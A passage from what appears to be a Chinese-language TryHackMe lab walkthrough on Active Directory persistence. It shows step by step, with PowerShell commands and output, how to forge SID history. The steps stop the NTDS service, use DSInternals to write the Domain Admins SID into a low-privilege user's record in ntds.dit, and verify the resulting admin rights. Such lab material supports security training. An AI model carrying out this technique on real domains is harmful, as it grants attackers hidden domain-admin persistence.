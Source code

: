 获取一个 SSH 会话到 THMDC，使用管理员凭据进行下一步操作。在伪造 SID 历史记录之前，首先获取一些关于 SIDs 的信息。首先，确保我们的低权限用户当前没有任何 SID 历史记录的信息：

```shell title="Terminal"
za\aaron.jones@THMCHILDDC C:\Users\Administrator.ZA>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.ZA> Get-ADUser <your ad username> -properties sidhistory,memberof

DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
Enabled           : True
GivenName         : Aaron
MemberOf          : {CN=Internet Access,OU=Groups,DC=za,DC=tryhackme,DC=loc}
Name              : aaron.jones
ObjectClass       : user
ObjectGUID        : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22
SamAccountName    : aaron.jones
SID               : S-1-5-21-3885271727-2693558621-2658995185-1429
SIDHistory        : {}
Surname           : Jones
UserPrincipalName :
```

这确认了我们的用户当前没有设置任何 SID 历史记录。让我们获取域管理员组的 SID，因为这是我们想要添加到 SID 历史记录中的组：

```shell title="Terminal"
PS C:\Users\Administrator.ZA> Get-ADGroup "Domain Admins"

DistinguishedName : CN=Domain Admins,CN=Users,DC=za,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Global
Name              : Domain Admins
ObjectClass       : group
ObjectGUID        : 3a8e1409-c578-45d1-9bb7-e15138f1a922
SamAccountName    : Domain Admins
SID               : S-1-5-21-3885271727-2693558621-2658995185-512
```

我们可以使用类似 Mimikatz 的工具来添加 SID 历史记录。然而，最新版本的 Mimikatz 存在一个缺陷，不能修补 LSASS 以更新 SID 历史记录。因此，我们需要使用其他工具。在这种情况下，我们将使用 [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) 工具直接修补 ntds.dit 文件，这是存储所有信息的 AD 数据库：

```shell title="Terminal"
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit
PS C:\Users\Administrator.ZA>Start-Service -Name ntds
```

NTDS 数据库在 NTDS 服务运行时被锁定。为了修补我们的 SID 历史记录，我们必须先停止该服务。在进行修补之后，必须重新启动 NTDS 服务，否则整个网络的认证将无法正常工作。

完成这些步骤后，让我们使用我们的低权限凭据通过 SSH 登录到 THMWRK1，验证 SID 历史记录是否已添加，并且我们现在是否拥有域管理员特权：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\aaron.jones> Get-ADUser aaron.jones -Properties sidhistory

DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
Enabled : True
GivenName : Aaron
Name : aaron.jones
ObjectClass : user
ObjectGUID : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22
SamAccountName : aaron.jones
SIDHistory : {S-1-5-21-3885271727-2693558621-2658995185-512}
Surname : Jones
```
